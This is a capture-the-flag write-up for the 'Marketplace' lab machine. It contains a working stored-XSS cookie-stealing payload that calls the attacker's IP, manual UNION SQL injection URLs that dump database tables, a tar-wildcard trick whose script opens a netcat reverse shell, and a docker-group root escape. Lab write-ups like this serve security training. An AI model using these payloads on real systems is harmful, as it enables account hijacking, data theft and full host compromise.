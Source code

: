 # The Marketplace

### The Marketplace
First create an account on the webpage (`test:test`), next step is to exploit a stored XSS vulnerability to steal michael's (the admin) cookie. The payload I used for XSS is `<script>new Image().src="http://10.11.127.156/steal.php?cookie=" + document.cookie;</script>`, if I open a python webserver on port 80 I get my own cookie. 
Luckily there's a button that allows me to report the listing to an admin, to make sure that his browser will view the XSS.<br />
![image](https://github.com/user-attachments/assets/8995c8e8-ec3c-4da0-b2fc-59ab16d5227d)<br />
So I report the listing and get the admin token on my webserver! The next step is to put it in the `cookie` variable from the developer's tools:<br />
![image](https://github.com/user-attachments/assets/5f76a337-1fb5-4c8e-9c44-baad24d55b4f)<br />
And now I have access to the `/admin` panel and got the first flag:<br />
![image](https://github.com/user-attachments/assets/4d42d3c0-14ca-4f8f-ad9a-eef41e8c8612)<br />
Now I need to get foothold on the machine. In the admin panel, I can select the "profile" of a user, and the URL becomes, for example, `/admin?user=1`. If I try to perform some SQL injection, I get this error: <br />
![image](https://github.com/user-attachments/assets/c53068ec-cd09-4f2e-b39f-6d4802b06d51)<br />
SQLMAP doesn't work, probably because there's some WAF that periodically changes michael's cookie. I need to exploit this SQL injection manually. First of all I need to know the number of columns of the table this query is about. After some enumeration the number of columns is `4`, because the payload that doesn't trigger an error is `?user=0 union select 1,2,3,4 -- -`:<br />
![Screenshot 2025-04-10 130639](https://github.com/user-attachments/assets/b250b695-0529-4b38-833b-a39a6eea8abf)<br />
The user `0` doesn't exist, so it should give an error, however it doesn't because it returns the output of the second select we injected. The fact that this second select doesn't trigger any error means that the number of columns is exactly 4, and the web app was wrongly developed to show the output of the query, no metter what query. Now, how can I exploit this to get more information? I can use the table `information_schema`. This is a table that contains information about databases saved in this DB. To get the name of the other database besides `information_schema`, I used the following payload

    http://10.10.2.204/admin?user=0%20union%20select%20schema_name,schema_name,3,4%20from%20information_schema.schemata%20WHERE%20schema_name%20!=%20%27information_schema%27--%20-

![image](https://github.com/user-attachments/assets/72936a1b-2721-41a1-9d28-0fa58ee91be2)<br />
So now I know that the DB is called `marketplace`. Now I want to know what tables are in this database, to do that I'll use the following payload: 

    10.10.2.204/admin?user=0 UNION SELECT table_name, table_name, null, null FROM information_schema.tables WHERE table_schema = 'marketplace' LIMIT 1 OFFSET 0-- -
This will print the first table only:<br />
![image](https://github.com/user-attachments/assets/de96fc29-46b6-40b8-a1f3-2ee235ced79d)<br />
So one table is `items`. Let's find another table:

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20table_name,%20table_name,%20null,%20null%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%20%27marketplace%27%20LIMIT%201%20OFFSET%201--%20-
The offset is now 1, and I get a different table name: <br />
![image](https://github.com/user-attachments/assets/7186b438-c1f6-49c0-9935-55f293da9b6c)<br />
So the second table is `messages`. I keep doing this just incrementing the offset and find also the table `users`.
Now I want to drop the contents of the tables. For example I'll take the table `messages`. I need to first find the names of the columns, and I'll use a similar technique as before, using LIMIT and OFFSET: <br />

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20column_name,%20null,%20null,%20null%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27messages%27%20AND%20table_schema%20=%20%27marketplace%27%20LIMIT%201%20OFFSET%202--%20-
![image](https://github.com/user-attachments/assets/caf30a59-e011-44ff-8d59-6c3a5d57d59f)<br />
By using this payload and just changing the offset, I find the following column names: `user_from`, `user_to`, `message_content`, `is_read`, `id`. Finally, the following payload shows all the `message_content`s in the DB, and I find a password: 

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20NULL,%20message_content,%20NULL,%20NULL%20FROM%20messages%20--
![image](https://github.com/user-attachments/assets/101a956e-2237-47e0-b78a-e2cf14fed096)<br />
Now I can log into jake's ssh account and get the first flag.
Now if I run `sudo -l` I get this: <br />
![image](https://github.com/user-attachments/assets/b05f403e-9d07-4c9f-a6d1-98cc8cbec752)<br />
Also, there are three users with a bash shell:<br />
![Screenshot 2025-04-11 103648](https://github.com/user-attachments/assets/38e112e6-5ccb-42cc-858b-3f5df82d3dce)<br />
And these are the groups they belong to:<br />
![Screenshot 2025-04-11 103805](https://github.com/user-attachments/assets/9d1c3931-6b22-45ca-8275-f4a06648967a)<br />
So I believe that I need to become the user `marketplace`, because it belongs to the group `sudo`. Here's how to spawn a shell as michael:<br />
![image](https://github.com/user-attachments/assets/57f06e33-ffa9-44c6-8ef3-ace646141a0c)<br />
I am exploiting `tar`'s wildcards, which are basically files that tar executes when it sees them. [This website](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa) explains this attack very well. To exploit it, go inside `/opt/backups` and run the following commands:

    echo "" > '--checkpoint=1'
    echo "" > '--checkpoint-action=exec=sh privesc.sh'
    nano privesc.sh
Inside the `privesc.sh` file I put the following code: 

    #!/bin/bash
    busybox nc 10.11.127.156 9001 -e sh
Now I'm michael, let's see what I can do. I run `linpeas` and it finds this:<br />
![image](https://github.com/user-attachments/assets/acf4f1bf-c675-4fb2-a58b-69c7868a126a)<br />
I belong to the `docker` group. Users in the docker group can execute the `docker` command, which uses the `docker daemon`, which always has root privileges. The exploit that uses docker privileges can be easily found on [gtfobins](https://gtfobins.github.io/gtfobins/docker/#sudo), just run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` and become root!:<br />
![image](https://github.com/user-attachments/assets/140b33d7-985f-43bb-b271-734dea79453e)<br />





